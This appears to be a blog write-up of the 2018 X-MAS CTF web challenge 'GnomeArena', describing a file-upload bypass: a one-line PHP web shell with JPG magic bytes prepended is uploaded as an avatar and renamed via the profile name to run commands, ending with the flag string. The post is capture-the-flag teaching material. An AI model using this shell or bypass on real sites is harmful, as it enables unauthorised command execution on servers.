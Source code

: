```yaml
---
layout: post
title: "X-MAS CTF: GnomeArena: Rock Paper Scissors"
date: 2018-12-21
excerpt: "Cool file upload vulnerability followed by a minimalist php shell!"
tags: [CTF, PHP, Web, File Upload]
categories: [CTF, Web]
comments: true
feature: /assets/posts_details/XMAS_CTF/gnome/header.png
---
```


# X-MAS CTF: GnomeArena: Rock Paper Scissors

The challenge description is:

![Img](/assets/posts_details/XMAS_CTF/gnome/intro.png "Img")

So going to the page we find out that there is a game with a settings page on the top right corner which looks way more interesting for us than the game itself.

![Img](/assets/posts_details/XMAS_CTF/gnome/main.png "Img")

![Img](/assets/posts_details/XMAS_CTF/gnome/settings.png "Img")

So I tried to modify a few parameters and see what changes were in the page. I noticed that the profile picture is stored under ``avatar/name`` and that whenever I change the name the path of the picture changes as well.

![Img](/assets/posts_details/XMAS_CTF/gnome/name.png "Img")

With that in mind, I tried to upload a simple PHP shell to execute commands:

```php
<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>
```

However, I got a warning saying that the file needed to be an image. That's when I had an inspiration that helped me solve the challenge.

1. Rename the shell.php to shell.jpg and append at the start of the file JPG's magic number: ``FF D8 FF``. That way, the shell will be recognised as an image but it will be executed later.
2. Change the name to something.php, in this case I used ``root2u.php``.

Then, I just needed to access ``avatar/root2u.php?cmd=`` and use any linux command I liked!

![Img](/assets/posts_details/XMAS_CTF/gnome/rev_1.png "Img")

Now, It's just a matter of time before we find the location of the flag.

![Img](/assets/posts_details/XMAS_CTF/gnome/rev_2.png "Img")

![Img](/assets/posts_details/XMAS_CTF/gnome/flag.png "Img")

And we get our flag: ``X-MAS{Ev3ry0ne_m0ve_aw4y_th3_h4ck3r_gn0m3_1s_1n_t0wn}``.

---

<center>
<i>Diego Bernal Adelantado</i>
</center>
